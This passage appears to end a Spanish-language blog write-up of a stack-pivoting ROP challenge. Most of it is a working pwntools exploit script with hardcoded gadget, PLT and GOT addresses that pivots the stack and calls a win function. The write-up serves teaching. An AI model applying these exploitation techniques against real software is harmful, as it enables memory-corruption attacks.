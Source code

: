 ```python
pivot_address = int(pivot_address, 16)  # Convertirla de cadena hexadecimal a número

log.info(f'Pivot address: {hex(pivot_address)}')    #DEBUG

offset = b'A'*40
addr_offset = p64(0x117)    # PLT offset
addr = p64(pivot_address)  # 1st input destination
foothold_plt = p64(0x400720)    # Obtained from uselessFunct
foothold_got = p64(0x601040)    # Obtained from readelf

xchgrax_rsp_ret = p64(0x4009bd)
poprax_ret = p64(0x4009bb)
add_rax_rbp_ret = p64(0x4009c4)
poprbp_ret = p64(0x4007c8)
movrax_addrrax_ret = p64(0x4009c0)
call_rax = p64(0x4006b0)

# LOAD PAYLOAD IN 1ST INPUT

payload = foothold_plt               # call foothold_plt first
payload += poprax_ret                # get the adress of foothold_got into rax
payload += foothold_got
payload += movrax_addrrax_ret        # get the effective adress of foothold_got into rax
payload += poprbp_ret                # get the offset into rbp
payload += addr_offset
payload += add_rax_rbp_ret           # add the offset to get the address of ret2win 
payload += call_rax                  # call ret2win

io.recvuntil(b'> ')
io.sendline(payload)

# MAKE STACK PIVOTING IN SECOND INPUT

stack_pivoting = offset
stack_pivoting += poprax_ret
stack_pivoting += addr
stack_pivoting += xchgrax_rsp_ret
io.recvuntil(b'> ')
io.sendline(stack_pivoting)


io.interactive()
```

Hay que tener en cuenta que el valor de la dirección a la que pivotar va variando, por lo que hay que capturarlo al ejecutar el binario.

Y ya sólo nos quedaría un último post de esta serie de post. Sin más preámbulo, ¡Nos vemos en el siguiente post!